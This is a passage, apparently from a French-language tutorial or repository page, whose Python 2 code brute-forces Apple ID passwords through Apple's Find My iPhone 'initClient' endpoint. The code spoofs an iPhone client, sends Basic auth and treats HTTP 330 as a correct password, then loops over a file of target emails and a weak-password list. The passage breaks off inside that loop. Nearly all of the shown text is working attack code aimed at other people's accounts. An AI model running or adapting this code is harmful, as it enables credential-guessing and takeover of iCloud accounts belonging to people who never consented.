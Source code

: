 
            url = 'https://fmipmobile.icloud.com/fmipservice/device/'+apple_id+'/initClient'

            headers = {
                'User-Agent': 'FindMyiPhone/376 CFNetwork/672.0.8 Darwin/14.0.0',
                }

            json = {
            "clientContext": {
            "appName": "FindMyiPhone",
            "osVersion": "7.0.4",
            "clientTimestamp": 429746389281,
            "appVersion": "3.0",
            #make it random!
            "deviceUDID": "0123456789485ef5b1e6c4f356453be033d15622",
            "inactiveTime": 1,
            "buildVersion": "376",
            "productType": "iPhone6,1"
            },
            "serverContext": {}
            }

            req_plist=plistlib.writePlistToString(json)

            req = urllib2.Request(url, req_plist, headers=headers)
            base64string = base64.encodestring('%s:%s' % (apple_id, password)).replace('\n', '')
            req.add_header("Authorization", "Basic %s" % base64string)



            try:
                resp = urllib2.urlopen(req)
            except urllib2.HTTPError, err:
                if err.code == 401:
                    return False
                if err.code == 330:
                    return True

            return 'bad'
        ```
        Il suffit maintenant de lire un fichier contenant les emails cibles ainsi que le fichier contenant tous les mots de passes faibles et en faisant une double boucle sur ces deux listes, le tour est joué:
        ```
        with open('passlist.txt', 'r') as file:
            passwords = file.read()


        with open('mails.txt', 'r') as file:
            apple_ids = file.read()



        for apple_id in apple_ids.split('\n'):
            if apple_id:
                print 'Working with:',apple_id
                for pwd in passwords.split('\n'):
                    if pwd:
                        #print pwd
                        password = pwd.split(' ')[1]
                        print 'Trying: ', apple_id,password
                        